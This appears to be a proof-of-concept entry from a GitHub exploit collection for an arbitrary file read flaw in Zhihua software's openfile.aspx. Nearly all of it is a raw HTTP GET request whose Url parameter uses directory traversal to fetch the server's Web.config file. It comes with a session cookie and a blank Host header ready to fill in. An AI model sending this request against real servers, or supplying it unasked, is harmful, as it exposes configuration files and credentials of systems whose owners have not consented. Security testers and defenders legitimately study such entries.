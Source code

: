 # zhihua_openfile_fileread

```
GET /oa/isprit/module/openfile.aspx?Url=..\..\..\Web.config HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: ASP.NET_SessionId=vu5fjewt125x2erxrujcfj4p
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
```

from: https://github.com/wy876/POC/blob/main/%E5%BF%97%E5%8D%8E%E8%BD%AF%E4%BB%B6/%E5%BF%97%E5%8D%8E%E8%BD%AF%E4%BB%B6openfile.aspx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
